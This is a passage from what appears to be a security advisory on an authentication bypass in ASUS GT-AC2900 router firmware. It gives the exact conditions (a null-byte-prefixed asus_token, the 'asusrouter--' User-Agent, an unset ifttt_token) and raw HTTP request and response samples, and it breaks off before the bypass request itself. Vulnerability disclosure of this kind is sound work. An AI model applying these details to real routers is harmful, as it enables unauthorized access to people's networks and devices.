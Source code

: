 - The submitted `asus_token` starts with a Null (0x0)
 - The request User-Agent matches an internal service UA (`asusrouter--`)
 - The device has not been configured with an `ifttt_token` (default state)

This condition results in the server incorrectly identifying the request as being authenticated. The following example shows a normal request and response for valid session:

```
GET /appGet.cgi?hook=get_cfg_clientlist() HTTP/1.1
Host: 192.168.1.107:8443
Content-Length: 0
User-Agent: asusrouter--
Connection: close
Referer: https://192.168.1.107:8443/
Cookie: asus_token=iCOPsFa54IUYc4alEFeOP4vjZrgspAY; clickedItem_tab=0

HTTP/1.0 200 OK
Server: httpd/2.0
Content-Type: application/json;charset=UTF-8
Connection: close

{
"get_cfg_clientlist":[{"alias":"24:4B:FE:64:37:10","model_name":"GT-AC2900","ui_model_name":"GT-AC2900","fwver":"3.0.0.4.386_41793-gdb31cdc","newfwver":"","ip":"192.168.50.1","mac":"24:4B:FE:64:37:10","online":"1","ap2g":"24:4B:FE:64:37:10","ap5g":"24:4B:FE:64:37:14","ap5g1":"","apdwb":"","wired_mac":[
...
...
}
```

The following shows that the same request fails in the case an invalid `asus_token` is provided:

```
GET /appGet.cgi?hook=get_cfg_clientlist() HTTP/1.1
Host: 192.168.1.107:8443
Content-Length: 0
User-Agent: asusrouter-- 
Connection: close
Referer: https://192.168.1.107:8443/
Cookie: asus_token=Invalid; clickedItem_tab=0


HTTP/1.0 200 OK
Server: httpd/2.0
Content-Type: application/json;charset=UTF-8
Connection: close

{
"error_status":"2"
}
```
If a null character is placed at the front of the `asus_token`, the request will be incorrectly identified as being authenticated, as seen in the following request and response:
